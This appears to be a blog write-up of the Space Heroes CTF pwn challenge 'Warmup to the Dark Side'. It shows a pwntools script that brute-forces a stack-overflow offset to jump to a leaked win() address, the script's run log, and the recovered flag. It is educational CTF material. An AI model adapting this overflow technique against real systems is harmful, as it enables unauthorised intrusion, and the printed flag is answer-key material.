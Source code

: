 ```yaml
---
title: "shctf/pwn: Warmup to the Dark Side"
date: 2022-04-05 15:57:40
tags:
- ctf
- shctf
- pwn
description: "Learn how to stack smash an ASLR-enabled program... without the binary! This is my writeup for the Space Heroes CTF binary/pwn challenge \"Warmup to the Dark Side\"."
permalink: ctfs/shctf/pwn/warmup-to-the-dark-side/
thumbnail: https://enscribe.dev/asset/banner/banner-ctfs.png
---
```


<style>
    .box {
        border: 1px solid rgba(100, 100, 100, .5);
        padding: 1rem;
        font-size: 90%;
        text-align: center;
    }
    .flex-container {
        display: flex;
        flex-wrap: nowrap;
        justify-content: center;
    }
</style>

<p class="box">Once you start down the dark path, forever will it dominate your destiny.<br>
(And yes, the binary isn't included)<br>
<code>nc 0.cloud.chals.io 30096</code><br>
<b>Author</b>: v10l3nt</p>

Let's run that `netcat` link to see what's going on:

```text
kali@kali:~/shctf/pwn/warmup-to-the-dark-side$ nc 0.cloud.chals.io 30096
The Dark Side Of The Force, Are They. Easily They Flow, Quick To Join You In A Fight. The Dark Side resides at: 0x55a6b42f020c
Jedi Mind tricks dont work on me >>> 
```

We're given an address of the `win()` function... and that's it. If this is a `ret2win` challenge, how are we meant to find the offset of the `$rip` register and overflow it with our code? Of course... we need to brute force it.

In the code snippet below, I got the address provided in the prompt by reading the line and taking its substring (ASLR is enabled, so it's different each time). Then, I slowly increase the buffer of the payload with a loop until I find the right offset of the `$rip`:

```py
from pwn import *
for i in range(0,100):
        p = remote("0.cloud.chals.io", 30096)
        address = p.readlineS()[112:126]
        log.info("Trying offset " + str(i) + " for address " + address)
        p.sendline(b'A'*i + p64(int(address, base=16)))
        output = p.recvallS()
        if "shctf" in output:
                log.success(output)
                break
        p.close()
```

Let's run this script on the server to see if we can get the flag:

```text
...
[*] Trying offset 37 for address 0x55f788f1120c
[+] Receiving all data: Done (38B)
[*] Closed connection to 0.cloud.chals.io port 30096
[+] Opening connection to 0.cloud.chals.io on port 30096: Done
[*] Trying offset 38 for address 0x5631d523620c
[+] Receiving all data: Done (38B)
[*] Closed connection to 0.cloud.chals.io port 30096
[+] Opening connection to 0.cloud.chals.io on port 30096: Done
[*] Trying offset 39 for address 0x55980d2d520c
[+] Receiving all data: Done (38B)
[*] Closed connection to 0.cloud.chals.io port 30096
[+] Opening connection to 0.cloud.chals.io on port 30096: Done
[*] Trying offset 40 for address 0x55f0008b520c
[+] Receiving all data: Done (95B)
[*] Closed connection to 0.cloud.chals.io port 30096
[+] Jedi Mind tricks dont work on me >>> 
    shctf{I_will_remov3_th3s3_restraints_and_leave_the_c3ll}
```

<a href="https://info.flagcounter.com/8Xkk"><img src="https://s01.flagcounter.com/count2/8Xkk/bg_212326/txt_C9CACC/border_C9CACC/columns_3/maxflags_12/viewers_3/labels_0/pageviews_1/flags_1/percent_0/" alt="Free counters!" border="0"></a>
